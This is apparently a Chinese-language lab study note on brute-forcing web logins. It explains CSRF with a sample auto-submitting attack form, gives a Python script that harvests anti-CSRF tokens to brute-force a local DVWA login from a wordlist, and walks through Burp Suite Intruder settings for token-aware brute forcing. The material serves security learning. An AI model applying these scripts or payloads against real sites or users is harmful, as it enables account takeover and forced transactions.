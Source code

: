 # 暴力破解

- Token与CSRF攻击
    - 跨站请求伪造攻击（CSRF）
        
        <aside>
        💡 请求由用户携带自身Cookie发出，服务器正确回应
        
        </aside>
        
        - 攻击过程
            1. 用户访问目标网站A，获取银行网站的Cookie
            2. 用户未关闭银行网站会话，访问钓鱼网站
            3. 钓鱼网站要求访问银行网站，发出Request
            4. 浏览器携带已保存的Cookie访问银行，失窃
        - 具体分类
            - GET型诱导
                1. 用户访问某网站，修改账号密码
                    
                    ```jsx
                    http://.../user.php?id=3212&passwd=1123
                    ```
                    
                2. 用户处于未关闭该网站状态
                3. 诱使用户点击钓鱼链接
                    
                    ```jsx
                    http://.../user.php?id=3212&passwd=0000
                    ```
                    
                4. 用户密码被篡改
            - POST型诱导
                1. 攻击者抓包，获得视频网站付费表单格式
                2. 用户访问某付费视频网站，未关闭该网站
                3. 用户点击钓鱼链接，包含请求表单
                    
                    ```jsx
                    <form action=/coures/buy method=POST>
                    <input type="text" name="some_name" value="some_value" />
                    </form>
                    <script> document.forms[0].submit(); </script> 
                    ```
                    
                4. 表单自动提交，用户被迫购买视频
    - Token防御
        
        <aside>
        💡 每一次请求均生成不同的Token作为认证
        
        </aside>
        
- 采用Python脚本
    
    <aside>
    💡 向不带有账号密码参数的空页面发送请求，获得传回的Token，利用Token爆破一次，向不带有账号密码参数的空页面发送请求，获得传回的新Token，利用Token爆破二次
    
    </aside>
    
    ```python
    from bs4 import BeautifulSoup
    import requests
     
    header={'Host':'127.0.0.1',
            'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',
            'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
            'Referer':'http://127.0.0.1/vulnerabilities/brute/',
            'cookie':'PHPSESSID=8p4kb7jc1df431lo6qe249quv2; security=high',
            'Connection':'close',
            'Upgrade-Insecure-Requests':'1'
            }
    requrl="http://127.0.0.1/vulnerabilities/brute/"
     
    def get_token(requrl,header):
        response=requests.get(url=requrl,headers=header)
        print (response.status_code,len(response.content))
        soup=BeautifulSoup(response.text,"html.parser")
        input=soup.form.select("input[type='hidden']") 
    		# 返回的是一个list列表
        user_token=input[0]['value'] 
    		# 获取用户的token
        return user_token
     
    user_token=get_token(requrl,header)
    i=0
    for line in open("E:\Password\mima.txt"):
        requrl="http://127.0.0.1/vulnerabilities/brute/?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
        i=i+1
        print (i , 'admin' ,line.strip(),end="  ")
        user_token=get_token(requrl,header)
        if(i==20):
            break
    ```
    
- 采用BurpSuite Intruder
    1. 打开`Proxy`选项卡，点选`Intercept` ，`Intercept is on` 拦截GET请求抓包
    2. 鼠标右键，点击`Send to Intruder` ，自动复制GET请求格式到`Intruder` 选项卡
    3. 打开`Intruder` 选项卡，点选`Position` ，将待爆破的字段包含在两`§` 之间，用`Add §`操作
    4. 选择`Attack Type` ，选择合适的攻击方式
        - 选项介绍
            - Sniper：接受一个Payload列表
                
                
                | A字段 | B字段 |
                | --- | --- |
                | passwd | origin content |
                | abc | origin content |
                | origin content | passwd |
                | origin content | abc |
                
                | Payload |
                | --- |
                | passwd |
                | abc |
            - Battering Ram：接受一个Payload列表
                
                
                | A字段 | B字段 |
                | --- | --- |
                | passwd | passwd |
                | abc | abc |
                
                | Payload |
                | --- |
                | passwd |
                | abc |
            - Pitch Fork：接受选择字段数个Payload列表
                
                
                | A字段 | B字段 |
                | --- | --- |
                | admin | passwd |
                | user | abc |
                
                | Payload A |
                | --- |
                | admin |
                | user |
                
                | Payload B |
                | --- |
                | passwd |
                | abc |
            - Cluster Bomb：接受选择字段数个Payload列表
                
                
                | A字段 | B字段 |
                | --- | --- |
                | admin | passwd |
                | admin | abc |
                | user | passwd |
                | user | abc |
                
                | Payload A |
                | --- |
                | admin |
                | user |
                
                | Payload B |
                | --- |
                | passwd |
                | abc |
    5. 进行爆破设置
        - 对于一般字典爆破
            1. 打开`Payload`选项卡，按照攻击方式设置合适的`Payload Set`，在`Payload Option`中导入爆破字典，使用`Add` 和`Load` 按键操作
            2. 打开`Resource Pool`选项卡，添加或选择合适的线程池
                
                <aside>
                💡 对于Recursive Grip类型的Payload，不支持多线程，需将`Maximum concurrent requests`设置为1
                
                </aside>
                
        - 对于带有token的字典爆破
            
            <aside>
            💡 先模拟浏览器发送（不带有账号密码参数的空页面）请求，获得传回的Token，利用Token爆破一次，获取此次爆破传回的新Token，利用Token爆破二次
            
            </aside>
            
            1. 攻击方式为`Pitch Fork`
            2. 打开`Payload`选项卡，设置`Payload Set`分别为`Simple List` `Recursive Grip`，
                - 对于`Simple List`，在`Payload Option`导入爆破字典
                - 对于`Recursive Grip` ，在`Option`选项卡中设置`Grep-Extract` ，抓取token作为第二个Payload，设置`Redierction` 为Always，弃选`Make unmodified baseline request`